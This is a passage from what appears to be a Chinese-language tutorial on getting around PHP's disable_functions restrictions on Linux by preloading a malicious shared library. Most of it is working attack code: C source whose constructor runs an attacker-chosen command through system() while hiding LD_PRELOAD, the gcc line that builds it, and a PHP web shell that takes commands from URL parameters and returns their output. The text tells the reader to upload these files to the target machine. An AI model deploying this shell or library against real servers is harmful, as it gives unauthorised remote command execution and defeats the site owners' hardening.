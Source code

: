 Linux 系统

**利用原理：**

上面的方法需要通过 LD_PRELOAD 劫持一个系统函数来实现 RCE，如果 sendmail 函数被禁用了呢？如果能找到一个方式在加载时就执行代码，而不用考虑劫持某一系统函数，那我就完全可以不依赖 sendmail 了。而 C++ 的构造函数就是如此。

向目标机器上传 bypass_disablefunc.c：

```
#define _GNU_SOURCE  

#include <stdlib.h>  
#include <stdio.h>  
#include <string.h>  


extern char** environ;  

__attribute__ ((__constructor__)) void preload (void)  
{  
// get command line options and arg  
const char* cmdline = getenv("EVIL_CMDLINE");  

// unset environment variable LD_PRELOAD.  
// unsetenv("LD_PRELOAD") no effect on some  
// distribution (e.g., centos), I need crafty trick.  
int i;  
for (i = 0; environ[i]; ++i) {  
if (strstr(environ[i], "LD_PRELOAD")) {  
environ[i][0] = '0';  
}  
}  

// executive command  
system(cmdline);  
}
```

接着用以下语句编译 C 文件为共享对象文件：

gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc.so

bypass_disablefunc.php

```
<?php  
echo "<p> <b>example</b>:
http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so
</p>";  
$cmd = $_GET["cmd"];  
$out_path = $_GET["outpath"];  
$evil_cmdline = $cmd . " > " . $out_path . " 2>&1";  
echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";  
putenv("EVIL_CMDLINE=" . $evil_cmdline);  
$so_path = $_GET["sopath"];  
putenv("LD_PRELOAD=" . $so_path);  
mail("", "", "", "");  
echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path))
. "</p>";  
unlink($out_path);  
?>
```
